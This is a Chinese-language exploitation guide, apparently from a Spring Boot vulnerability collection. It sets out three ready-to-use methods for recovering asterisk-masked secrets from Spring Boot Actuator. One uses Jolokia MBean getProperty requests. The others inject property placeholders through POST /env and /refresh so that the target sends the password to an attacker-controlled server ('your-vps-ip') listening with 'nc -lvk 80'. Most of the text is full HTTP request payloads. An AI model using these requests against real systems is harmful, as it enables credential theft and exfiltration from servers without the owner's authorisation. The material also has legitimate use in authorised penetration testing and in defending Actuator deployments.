### 获取被星号脱敏的密码的明文 (方法一)

> 访问 /env 接口时，spring actuator 会将一些带有敏感关键词(如 password、secret)的属性名对应的属性值用 * 号替换达到脱敏的效果

#### 利用条件：

* 目标网站存在 `/jolokia` 或 `/actuator/jolokia` 接口
* 目标使用了 `jolokia-core` 依赖（版本要求暂未知）

#### 利用方法：

##### 步骤一： 找到想要获取的属性名

GET 请求目标网站的 `/env` 或 `/actuator/env` 接口，搜索 `******` 关键词，找到想要获取的被星号 * 遮掩的属性值对应的属性名。

##### 步骤二： jolokia 调用相关 Mbean 获取明文

将下面示例中的 `security.user.password` 替换为实际要获取的属性名，直接发包；明文值结果包含在 response 数据包中的 `value` 键中。

* 调用 `org.springframework.boot` Mbean（**可能更通用**）

> 实际上是调用 org.springframework.boot.admin.SpringApplicationAdminMXBeanRegistrar 类实例的 getProperty 方法

spring 1.x

```bash
POST /jolokia
Content-Type: application/json

{"mbean": "org.springframework.boot:name=SpringApplication,type=Admin","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}

```

spring 2.x

```bash
POST /actuator/jolokia
Content-Type: application/json

{"mbean": "org.springframework.boot:name=SpringApplication,type=Admin","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}

```

* 调用 `org.springframework.cloud.context.environment` Mbean（**需要 spring cloud 相关依赖**）

> 实际上是调用 org.springframework.cloud.context.environment.EnvironmentManager 类实例的 getProperty 方法

spring 1.x

```bash
POST /jolokia
Content-Type: application/json

{"mbean": "org.springframework.cloud.context.environment:name=environmentManager,type=EnvironmentManager","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}

```

spring 2.x

```bash
POST /actuator/jolokia
Content-Type: application/json

{"mbean": "org.springframework.cloud.context.environment:name=environmentManager,type=EnvironmentManager","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}

```

### 获取被星号脱敏的密码的明文 (方法二)

> 访问 /env 接口时，spring actuator 会将一些带有敏感关键词(如 password、secret)的属性名对应的属性值用 * 号替换达到脱敏的效果

#### 利用条件：

* 可以 GET 请求目标网站的 `/env`
* 可以 POST 请求目标网站的 `/env`
* 可以 POST 请求目标网站的 `/refresh` 接口刷新配置（存在 `spring-boot-starter-actuator` 依赖）
* 目标使用了 `spring-cloud-starter-netflix-eureka-client` 依赖
* 目标可以请求攻击者的服务器（请求可出外网）

#### 利用方法：

##### 步骤一： 找到想要获取的属性名

GET 请求目标网站的 `/env` 或 `/actuator/env` 接口，搜索 `******` 关键词，找到想要获取的被星号 * 遮掩的属性值对应的属性名。

##### 步骤二： 使用 nc 监听 HTTP 请求

在自己控制的外网服务器上监听 80 端口：

```
nc -lvk 80

```

##### 步骤三： 设置 eureka.client.serviceUrl.defaultZone 属性

将下面 `http://value:${security.user.password}@your-vps-ip` 中的 `security.user.password` 换成自己想要获取的对应的星号 * 遮掩的属性名；

`your-vps-ip` 换成自己外网服务器的真实 ip 地址。

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

eureka.client.serviceUrl.defaultZone=http://value:${security.user.password}@your-vps-ip

```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"eureka.client.serviceUrl.defaultZone","value":"http://value:${security.user.password}@your-vps-ip"}

```

##### 步骤四： 刷新配置

spring 1.x

```
POST /refresh
Content-Type: application/x-www-form-urlencoded

```

spring 2.x

```
POST /actuator/refresh
Content-Type: application/json

```

##### 步骤五： 解码属性值

正常的话，此时 nc 监听的服务器会收到目标发来的请求，其中包含类似如下 `Authorization` 头内容：

```
Authorization: Basic dmFsdWU6MTIzNDU2

```

将其中的 `dmFsdWU6MTIzNDU2`部分使用 base64 解码，即可获得类似明文值 `value:123456`，其中的 `123456` 即是目标星号 * 脱敏前的属性值明文。

### 获取被星号脱敏的密码的明文 (方法三)

> 访问 /env 接口时，spring actuator 会将一些带有敏感关键词(如 password、secret)的属性名对应的属性值用 * 号替换达到脱敏的效果

#### 利用条件：

* 通过 POST `/env` 设置属性触发目标对外网指定地址发起任意 http 请求
* 目标可以请求攻击者的服务器（请求可出外网）

#### 利用方法：

> 参考 UUUUnotfound 提出的 [issue-1](https://github.com/LandGrey/SpringBootVulExploit/issues/1)，可以在目标发外部 http 请求的过程中，在 url path 中利用占位符带出数据

##### 步骤一： 找到想要获取的属性名

GET 请求目标网站的 `/env` 或 `/actuator/env` 接口，搜索 `******` 关键词，找到想要获取的被星号 * 遮掩的属性值对应的属性名。

##### 步骤二： 使用 nc 监听 HTTP 请求

在自己控制的外网服务器上监听 80 端口：

```
nc -lvk 80

```

##### 步骤三： 触发对外 http 请求

* `spring.cloud.bootstrap.location` 方法（**同时适用于**明文数据中有特殊 url 字符的情况）：

spring 1.x

```bash
POST /env
Content-Type: application/x-www-form-urlencoded

spring.cloud.bootstrap.location=http://your-vps-ip/?=${security.user.password}

```

spring 2.x

```bash
POST /actuator/env
Content-Type: application/json

{"name":"spring.cloud.bootstrap.location","value":"http://your-vps-ip/?=${security.user.password}"}

```

* `eureka.client.serviceUrl.defaultZone` 方法（**不适用于**明文数据中有特殊 url 字符的情况）：

spring 1.x

```bash
POST /env
Content-Type: application/x-www-form-urlencoded

eureka.client.serviceUrl.defaultZone=http://your-vps-ip/${security.user.password}

```

spring 2.x

```bash
POST /actuator/env
Content-Type: application/json

{"name":"eureka.client.serviceUrl.defaultZone","value":"http://your-vps-ip/${security.user.password}"}

```

##### 步骤四： 刷新配置

spring 1.x

```bash
POST /refresh
Content-Type: application/x-www-form-urlencoded

```

spring 2.x

```bash
POST /actuator/refresh
Content-Type: application/json

```


